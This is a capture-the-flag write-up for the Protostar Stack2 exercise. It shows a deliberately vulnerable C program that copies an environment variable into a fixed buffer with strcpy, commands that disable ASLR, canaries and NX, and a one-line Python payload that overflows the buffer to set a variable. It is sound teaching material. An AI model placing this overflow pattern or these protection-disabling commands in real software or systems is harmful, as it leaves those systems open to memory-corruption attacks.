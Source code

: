 ## Protostar-Stack2 Solution

### 1. Introduction

This is a poc solution for the "Stack2" challenge of Protostar. It's short and hopefully it's easy for everyone who wants to have a look.

Source:
[https://web.archive.org/web/20170419023252/https://exploit-exercises.com/protostar/stack2/](https://web.archive.org/web/20170419023252/https://exploit-exercises.com/protostar/stack2/) 

**Hints:**
* Stack2 looks at environment variables, and how they can be set.

#### 1.1 Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

#### 1.2 Compilation

Terminal command to compile with debug symbols + without pie + without nx-bit + Disable canaries + Disable ASLR + for x86:

```js
sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'

gcc -o 2 2.c -z execstack -fno-stack-protector -m32 -no-pie -g
```

### 2. Solution 

Okay, this challenge is pretty similar to Stack-1.
Hence I am not explaining again.

The only difference is the user-controlled env variable GREENIE is used in code and it is copied to "buffer" via strcpy(buffer, variable). The goal is same; etting the "modified" variable to 0x0d0a0d0a.

```bash
GREENIE=`python -c "print 'A' * 64 + '\x0a\x0d\x0a\x0d'"` ./2
you have correctly modified the variable
```
